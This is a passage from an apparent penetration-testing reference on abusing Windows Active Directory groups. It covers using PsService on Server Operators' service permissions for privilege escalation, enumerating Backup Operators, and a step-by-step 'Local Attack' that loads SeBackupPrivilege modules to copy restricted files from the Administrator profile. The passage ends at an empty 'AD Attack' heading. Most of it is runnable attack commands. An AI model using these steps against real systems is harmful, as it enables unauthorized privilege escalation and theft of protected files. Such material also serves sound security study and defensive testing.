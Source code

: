 ### Domain Controller Access

Access to files on the DC is restricted unless the user is part of the `Server Operators` group, which changes the level of access.

### Privilege Escalation

Using `PsService` or `sc` from Sysinternals, one can inspect and modify service permissions. The `Server Operators` group, for instance, has full control over certain services, allowing for the execution of arbitrary commands and privilege escalation:

```cmd
C:\> .\PsService.exe security AppReadiness
```

This command reveals that `Server Operators` have full access, enabling the manipulation of services for elevated privileges.

## Backup Operators

Membership in the `Backup Operators` group provides access to the `DC01` file system due to the `SeBackup` and `SeRestore` privileges. These privileges enable folder traversal, listing, and file copying capabilities, even without explicit permissions, using the `FILE_FLAG_BACKUP_SEMANTICS` flag. Utilizing specific scripts is necessary for this process.

To list group members, execute:

```powershell
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```

### Local Attack

To leverage these privileges locally, the following steps are employed:

1. Import necessary libraries:

```bash
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

2. Enable and verify `SeBackupPrivilege`:

```bash
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

3. Access and copy files from restricted directories, for instance:

```bash
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\report.pdf c:\temp\x.pdf -Overwrite
```

### AD Attack
